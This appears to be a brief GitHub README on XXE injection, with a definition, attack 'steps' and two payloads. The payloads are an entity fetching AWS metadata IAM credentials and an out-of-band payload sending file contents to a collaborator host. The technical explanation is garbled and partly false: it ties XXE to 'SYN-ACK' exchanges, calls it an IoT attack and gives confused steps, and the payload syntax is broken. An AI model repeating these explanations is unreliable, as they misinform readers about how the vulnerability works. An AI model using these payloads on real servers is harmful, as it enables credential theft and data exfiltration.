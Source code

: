 # XXE injection. 
# What is XXE injection? 
XXE injection also known as XML external entity injection. IT is a type of back end web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access. IT works on SYN-ACK type of communication between evil sever and genuine server. It is more applicable in IoT and also known  as one of IoT attacks. XXE injection attack can be escalated by compormising server by using SSRF (server side request forgery).  
![XXE_600x315](https://user-images.githubusercontent.com/115407638/204035060-03d35c3f-eff2-48fb-8fd3-e61cc5bf77c0.png) 

# Steps to perform XXE injection. 
1) Client sends requests to the server XXE data. 
2) Server sends SYN-ACK sommand to evil server. 
3) XXE payload is injected and sent to the genuine server that asks for c:/windows/win.ini 
4) XXE vulnerablity of attacker is exploited. 

# Payloads Used 

1) To obtain admin credentials: !DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]
2) To test random credentials: !ENTITY % eval "<!ENTITY &#x25; test SYSTEM 'http://burp-collaborator/?a=%file;'>" %eval %test;  




#Impact 

XXE injection vulnerablity basically works on data in use and transit data. It can cause the loss of sensitive info of an organisation or an individual. 
